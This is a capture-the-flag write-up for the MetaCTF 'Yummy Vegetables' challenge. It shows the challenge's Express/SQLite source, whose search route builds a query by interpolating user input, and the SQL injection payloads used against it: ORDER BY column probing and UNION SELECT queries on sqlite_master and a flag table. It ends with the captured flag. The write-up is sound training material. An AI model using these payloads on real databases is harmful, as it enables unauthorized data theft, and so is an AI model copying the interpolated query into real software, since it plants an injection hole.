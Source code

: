 # Yummy Vegetables

This Challenges was based on a simple SQL injection.

First we looked at the interaction of the web page and see directly that there is a query made over a custom
http Query. We can simulate such a query with this curl script:
```bash
curl http://host.cg21.metaproblems.com:4010/search -X SEARCH --header "Content-Type: application/json" --data '{"query":"test"}'
```

With the given sourcecode of the index.js:
```js
const express = require('express');
const Ajv = require('ajv');
const sqlite = require('better-sqlite3');
const sleep = (ms) => new Promise((res) => { setTimeout(res, ms) })
// set up express
const app = express();
app.use(express.json());
app.use(express.static('public'));
// ajv request validator
const ajv = new Ajv();
const schema = {
  type: 'object',
  properties: {
    query: { type: 'string' },
  },
  required: ['query'],
  additionalProperties: false
};
const validate = ajv.compile(schema);
// database
const db = sqlite('db.sqlite3');
// search route
app.search('/search', async (req, res) => {
  if (!validate(req.body)) {
    return res.json({
      success: false,
      msg: 'Invalid search query',
      results: [],
    });
  }
  await sleep(5000); // the database is slow :p
  const query = `SELECT * FROM veggies WHERE name LIKE '%${req.body.query}%';`;
  let results;
  try {
    results = db.prepare(query).all();
  } catch {
    return res.json({
      success: false,
      msg: 'Something went wrong :(',
      results: [],
    })
  }
  return res.json({
    success: true,
    msg: `${results.length} result(s)`,
    results,
  });
});
// start server
app.listen(3000, () => {
  console.log('Server started');
});
```

We can also verify the SQLi vector at the line:
```js
const query = `SELECT * FROM veggies WHERE name LIKE '%${req.body.query}%';`;
```

With this given SQL injection we can now check the column count:
```sql
%' order by 5; --
%' order by 4; --
%' order by 3; --
```
So we know that we got 3 columns so lets create a test:

```
%' AND 1=0 UNION SELECT 1,name,3 FROM sqlite_master; --
```

And we get a list of tables in the database. We can assume that our table `the_flag_is_in_here_730387f4b640c398a3d769a39f9cf9b5`
holds our flag, so we tried to get the column flag of that table.

```sql
%' and 1=0 UNION SELECT 1,flag,2 FROM the_flag_is_in_here_730387f4b640c398a3d769a39f9cf9b5; --
```

And we got the flag:

```
MetaCTF{sql1t3_m4st3r_0r_just_gu3ss_g0d??}
```
